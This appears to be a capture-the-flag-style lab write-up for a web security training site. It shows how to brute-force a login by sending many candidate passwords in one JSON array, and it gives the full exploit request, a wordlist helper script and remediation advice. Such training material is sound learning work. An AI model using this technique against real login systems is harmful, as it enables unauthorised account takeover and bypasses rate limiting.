

##Broken brute-force protection, multiple credentials per request

### Objective
Brute-force Carlos's password by exploiting a logic flaw that allows sending multiple passwords in a single JSON request, then access his account page.

### Credentials
| Victim Username | Password |
|-----------------|----------|
| carlos | (unknown - to be found) |

### Vulnerability Description
The login endpoint accepts JSON payloads. Instead of processing a single string value for the password field, it accepts an **array of strings** and automatically tries each one until a match is found. This completely bypasses traditional brute-force protections.

### Exploitation Steps

**Step 1:** Capture a `POST /login` request in Burp. Observe the JSON format:

```json
{
    "username": "carlos",
    "password": "somepassword"
}
```

**Step 2:** Modify the request to send an array of candidate passwords:

```json
{
    "username": "carlos",
    "password": [
        "123456",
        "password",
        "12345678",
        "qwerty",
        "abc123",
        "monkey",
        ...
    ]
}
```

**Step 3:** Send the request. Server returns a `302` redirect when a valid password is found in the array.

**Step 4:** Right-click → **Show response in browser** → Copy the URL and load it.

**Step 5:** Click **My account** to access Carlos's account page.

### Python Script to Generate Password List

```python
# Convert password list to JSON array format
with open('passwords.txt', 'r') as f:
    passwords = [line.strip() for line in f]

for pwd in passwords:
    print(f'"{pwd}",')
```

**Sample output:**
```json
"matthew",
"access",
"yankees",
"987654321",
"dallas",
"austin",
"thunder",
"taylor",
"matrix",
"mobilemail",
"mom",
"monitor",
"monitoring",
"montana",
"moon",
"moscow"
```

### Final Exploit Request

```
POST /login HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/json

{
    "username": "carlos",
    "password": [
        "123456", "password", "12345678", "qwerty", "abc123",
        "monkey", "letmein", "dragon", "baseball", "master",
        "matthew", "access", "yankees", "987654321", "dallas",
        "austin", "thunder", "taylor", "matrix", "mobilemail"
    ]
}
```

### Attack Summary

| Traditional Brute-Force | This Exploit |
|------------------------|---------------|
| Multiple requests | Single request |
| Triggers rate limiting | No rate limit hit |
| Slow | Instant |
| Logs many failures | Logs one request |

### Root Cause

The server-side code iterates through the password array without limiting the number of attempts or validating the input type.

### Remediation

- Accept only string values for password, reject arrays
- Implement rate limiting per username
- Use strong CSRF tokens on login
- Lock accounts after multiple failures (per user)

---

## Lab Solved ✓


